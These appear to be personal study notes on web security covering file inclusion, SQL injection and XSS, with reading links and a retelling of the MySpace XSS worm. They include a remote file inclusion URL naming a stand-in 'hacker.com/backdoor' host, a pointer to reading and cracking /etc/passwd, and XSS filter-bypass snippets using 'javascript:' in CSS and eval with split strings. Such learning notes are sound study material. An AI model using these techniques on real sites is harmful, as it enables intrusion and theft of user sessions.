 ## file inclusion

https://security.stackexchange.com/questions/174932/what-is-the-difference-between-local-file-inclusion-lfi-and-remote-file-inclus

* _local_: directory traversal + reading file
* _remote_: including file from remote source
* _how does it typically happen?_ improper validation of user input leads to the loading of an external resource into the server and execution therein
* _example_: http://www.example.com/vuln_page.php?file=http://www.hacker.com/backdoor
* `/etc/passwd`: how to read and [how to crack](https://pentestlab.blog/2012/07/23/dumping-and-cracking-unix-password-hashes/); actual passwords stored elsewhere in shadow password file [LPI 26]

## SQL injection

* https://ian.sh/tsa
* https://jacobian.org/2020/may/15/preventing-sqli/ https://www.fullstackpython.com/sql-injection.html https://sqlwiki.netspi.com/ https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/ https://realpython.com/prevent-python-sql-injection/  https://www.djangoproject.com/weblog/2020/feb/03/security-releases/ https://blog.guilatrova.dev/how-sql-injection-attack-works-with-examples/
* _command injection_: passing malicious code to `os.system` or similar modules
* _prevention_: input validation, parameterized queries [as in Java PreparedStatement] vs. string concat so that input cannot affect the structure of the query
* _parameterized query_: sanitization
* _how do malicious queries get in?_ GET/POST parameters, cookie values, form fields
* _what happens when they get in?_ send script to browser—> browser executes —> logs keystrokes, takes session cookies, sends to own server

## XSS 

= 3rd-party JavaScript running on your site

* _how?_ submit form w/ malacious JS embedded in HTML attr https://flask.palletsprojects.com/en/1.1.x/security/#cross-site-scripting-xss https://24ways.org/2018/securing-your-site-like-its-1999/
* _why?_ read user cookies and send to 3rd party https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) https://security.stackexchange.com/questions/36172/is-cookie-based-xss-exploitable
* _types_: stored vs. reflected https://shoptalkshow.com/episodes/250-web-security-april-king-alex-sexton/
* _sink_: https://tonybaloney.github.io/posts/xss-exploitation-in-django.html https://terjanq.github.io/Tiny-XSS-Payloads/index.html

__in action__

* https://skii.dev/rook-to-xss/

🔗 https://24ways.org/2018/securing-your-site-like-its-1999/

* couldn't submit `<script>`, but -> added attribute to html ala `<div style="background:url('javascript:alert(1)')">` 
> I don't understand two things about here: why URL executes (thought it only parsed file path to static resource) and why `javascript:` specifies a runtime (where else in CSS would this come up?)
* only worked on IE, but this was 2005
* couldn't invoke `document.body.innerHTML`, but -> can concatenate code and execute inside eval `eval('document.body.inne' + 'rHTML')`
* realized `innerHTML` contained links a few other user profiles
* realized he could hit MySpace API
* all recursion from there

